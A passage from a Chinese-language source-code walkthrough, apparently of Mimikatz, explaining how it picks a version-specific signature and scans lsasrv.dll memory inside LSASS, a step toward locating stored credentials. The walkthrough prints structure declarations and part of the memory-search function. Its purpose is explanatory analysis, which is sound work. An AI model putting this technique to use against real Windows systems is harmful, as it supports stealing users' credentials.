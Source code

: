 ```c++
}
```

首先，`kull_m_patch_getGenericFromBuild()` 函数根据 `cLsass->osContext.BuildNumber` 中的版本号选择 `LsaSrvReferences` 中适用于当前系统版本的特征码条目。选出来的 `currentReference->Search.Pattern` 赋给 `aLocalMemory.address` 后，将 `&aLocalMemory` 连同 `&sMemory` 传入 `kull_m_memory_search()` 函数。其中 `sMemory` 是一个 `KULL_M_MEMORY_SEARCH` 结构体，用于临时保存 lsasrv.dll 模块的基地址和映像大小，其声明如下。

```c++
typedef struct _KULL_M_MEMORY_SEARCH {
    KULL_M_MEMORY_RANGE kull_m_memoryRange;
    LPVOID result;
} KULL_M_MEMORY_SEARCH, *PKULL_M_MEMORY_SEARCH;

typedef struct _KULL_M_MEMORY_RANGE {
    KULL_M_MEMORY_ADDRESS kull_m_memoryAdress;
    SIZE_T size;
} KULL_M_MEMORY_RANGE, *PKULL_M_MEMORY_RANGE;

typedef struct _KULL_M_MEMORY_ADDRESS {
    LPVOID address;
    PKULL_M_MEMORY_HANDLE hMemory;
} KULL_M_MEMORY_ADDRESS, *PKULL_M_MEMORY_ADDRESS;
```

在 `kull_m_memory_search()` 函数内部定位特征码的内存地址，该函数定义如下。

```c++
BOOL kull_m_memory_search(IN PKULL_M_MEMORY_ADDRESS Pattern, IN SIZE_T Length, IN PKULL_M_MEMORY_SEARCH Search, IN BOOL bufferMeFirst)
{
    BOOL status = FALSE;
    KULL_M_MEMORY_SEARCH  sBuffer = {{{NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, Search->kull_m_memoryRange.size}, NULL};
    PBYTE CurrentPtr;
    // 定义搜索的最大地址数（搜索的极限），为保存 lsasrv.dll 模块的内存地址加上 lsasrv.dll 模块的大小
    PBYTE limite = (PBYTE) Search->kull_m_memoryRange.kull_m_memoryAdress.address + Search->kull_m_memoryRange.size;

    switch(Pattern->hMemory->type)
    {
    case KULL_M_MEMORY_TYPE_OWN:
        switch(Search->kull_m_memoryRange.kull_m_memoryAdress.hMemory->type)
        {
        case KULL_M_MEMORY_TYPE_OWN:
            // CurrentPtr 从 lsasvr.dll 的基地址开始循环，依次递增一个地址，最大地址数为 limite
            for(CurrentPtr = (PBYTE) Search->kull_m_memoryRange.kull_m_memoryAdress.address; !status && (CurrentPtr + Length <= limite); CurrentPtr++)
                // 比较 Pattern->address 和 CurrentPtr 指向的两个内存块是否相同，如果相同则说明找到了特征码
                status = RtlEqualMemory(Pattern->address, CurrentPtr, Length);
            CurrentPtr--;
            break;
        case KULL_M_MEMORY_TYPE_PROCESS:
        case KULL_M_MEMORY_TYPE_FILE:
        case KULL_M_MEMORY_TYPE_KERNEL:
            // 为 sBuffer.kull_m_memoryRange.kull_m_memoryAdress.address 开辟内存空间
            if(sBuffer.kull_m_memoryRange.kull_m_memoryAdress.address = LocalAlloc(LPTR, Search->kull_m_memoryRange.size))
            {
                // 将包含 lsasvr.dll 模块的那部分内存复制到 sBuffer.kull_m_memoryRange.kull_m_memoryAdress 所指向的内存中
                if(kull_m_memory_copy(&sBuffer.kull_m_memoryRange.kull_m_memoryAdress, &Search->kull_m_memoryRange.kull_m_memoryAdress, Search->kull_m_memoryRange.size))
                    // 再次调用 kull_m_memory_search 函数将进入到 case KULL_M_MEMORY_TYPE_OWN:
                    if(status = kull_m_memory_search(Pattern, Length, &sBuffer, FALSE))
```